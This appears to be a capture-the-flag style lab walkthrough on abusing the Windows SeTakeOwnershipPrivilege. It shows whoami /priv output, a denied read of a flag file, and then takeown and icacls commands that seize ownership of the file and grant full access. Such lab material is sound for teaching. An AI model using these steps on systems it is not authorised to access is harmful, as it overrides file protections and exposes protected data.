 This privilege grants a user the ability to take ownership of any "securable object," meaning Active Directory objects, NTFS files/folders, printers, registry keys, services, and processes.

```bash
PS C:\Tools> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== =======
SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Enabled
```

Trying to access protected file:

```bash
PS C:\Tools> type C:\TakeOwn\flag.txt
type : Access to the path 'C:\TakeOwn\flag.txt' is denied.
```

Taking ownership of the file

```bash
takeown /f 'C:\TakeOwn\flag.txt'
```

If viewing the file still doesn't work, modify the permissions:

```bash
icacls 'C:\TakeOwn\flag.txt' /grant htb-student:F
```

